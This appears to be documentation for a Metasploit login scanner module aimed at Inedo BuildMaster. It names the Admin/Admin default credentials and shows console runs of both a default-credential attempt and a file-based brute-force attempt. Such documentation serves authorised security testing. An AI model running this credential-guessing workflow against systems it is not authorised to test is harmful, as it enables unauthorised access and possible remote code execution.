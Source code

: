This module allows you to authenticate to Inedo BuildMaster, an application release automation tool. The default credentials for BuildMaster are Admin/Admin. Gaining privileged access to BuildMaster can lead to remote code execution.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/buildmaster_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: Set credentials
5. Do: ```run```
6. You should see the module attempting to log in.

## Scenarios

Attempt to login with the default credentials.
```
msf > use auxiliary/scanner/http/buildmaster_login
msf auxiliary(buildmaster_login) > set RHOSTS 10.0.0.8
RHOSTS => 10.0.0.8
msf auxiliary(buildmaster_login) > run

[+] 10.0.0.8:81 - Identified BuildMaster 5.7.3 (Build 1)
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.8:81 - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(buildmaster_login) >
```
Brute force with credentials from file.
```
msf > use auxiliary/scanner/http/buildmaster_login 
msf auxiliary(buildmaster_login) > options

Module options (auxiliary/scanner/http/buildmaster_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD          Admin            no        Password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             81               yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME          Admin            no        Username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf auxiliary(buildmaster_login) > set RHOSTS 10.0.0.8
RHOSTS => 10.0.0.8
msf auxiliary(buildmaster_login) > set USERPASS_FILE ~/BuildMasterCreds.txt
USERPASS_FILE => ~/BuildMasterCreds.txt
msf auxiliary(buildmaster_login) > run

[+] 10.0.0.8:81 - Identified BuildMaster 5.7.3 (Build 1)
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"test"
[-] FAILED LOGIN - 10.0.0.8:81 - "Admin":"test"
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"wrong"
[-] FAILED LOGIN - 10.0.0.8:81 - "Admin":"wrong"
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.8:81 - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(buildmaster_login) > 
```